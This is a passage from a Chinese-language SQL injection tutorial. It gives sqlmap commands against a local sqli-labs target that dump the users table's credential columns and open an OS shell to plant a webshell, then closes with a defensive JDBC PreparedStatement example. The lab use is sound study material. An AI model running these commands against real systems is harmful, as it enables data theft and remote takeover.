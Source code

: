 8. --dbms，指定数据库，加快注入效率，建议配置

   ```
   python3 sqlmap.py -r request.txt --dbms=mysql
   ```

9. --random-agent，推荐指定随机UA头，减少被风控几率

10. --batch，跳过交互

#### 总结：

##### Post请求/注入点未知情况：

1. BP复制请求包，保存->request.txt，插入*指定注入参数，如果很少就不需要，直接-p指定就行

2. 执行

   ```
   python3 sqlmap.py -r request.txt -p "xxx,xxx" --technique=xxx --dbms=xxx --proxy="BP地址,代理地址" --random-agent --tamper=xxx,xxx
   ```


##### Get请求/注入点已经确定，想让sqlmap爆库而已：

```
#获取所有数据库名称
python sqlmap.py -u "http://192.168.101.16/sqli-labs-master/Less-9/?id=1" --dbs
#获取当前数据库
python sqlmap.py -u "http://192.168.101.16/sqli-labs-master/Less-9/?id=1" --current-db
#获取数据库security所有表名称
python sqlmap.py -u "http://192.168.101.16/sqli-labs-master/Less-9/?id=1" --tables -D security
#获取数据库security的users表的所有列名
python sqlmap.py -u "http://192.168.101.16/sqli-labs-master/Less-9/?id=1" --columns -D security -T users
#获取数据库security的users表的username和password列的值
python sqlmap.py -u "http://192.168.101.16/sqli-labs-master/Less-9/?id=1" --dump -D security -T users -C username,password
#写马
python sqlmap.py -u "http://192.168.101.16/sqli-labs-master/Less-9/?id=1" --os-shell 
```

#### 2. JAVA的参数化查询 之 JDBC

在 Java 中，预编译 SQL 语句的机制主要通过 **JDBC（Java Database Connectivity）** 的 **`PreparedStatement`** 接口实现。

```java
// 使用 try-with-resources 自动关闭资源（Java 7+）
try (Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);      // 自动关闭连接
     PreparedStatement ps = conn.prepareStatement("select * from users where name=?")) { // 自动关闭Statement
    
    ps.setString(1, "zy");  // 参数化赋值
    
    try (ResultSet rs = ps.executeQuery()) {  // 自动关闭ResultSet
        // 处理查询结果
        while (rs.next()) {
            String username = rs.getString("name");
            System.out.println("User: " + username);
        }
    }
    
} catch (SQLException e) {  // 精准捕获数据库异常
    e.printStackTrace();    // 实际应记录日志或处理异常
    System.out.println("数据库操作失败: " + e.getMessage());
}
```
